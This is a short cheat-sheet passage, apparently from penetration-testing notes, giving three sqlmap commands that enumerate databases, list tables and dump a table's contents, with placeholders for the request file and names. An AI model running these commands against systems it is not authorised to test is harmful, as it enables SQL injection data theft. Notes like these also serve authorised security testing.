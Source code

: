 ## SQLMap

### Discover database names

```sqlmap -r <request file> --dbs```

### Show tables in database

```sqlmap -r <request file> -D <database name> --tables```

### Enum table in database

```sqlmap -r <request file> -D <database name> -T <table name> --dump```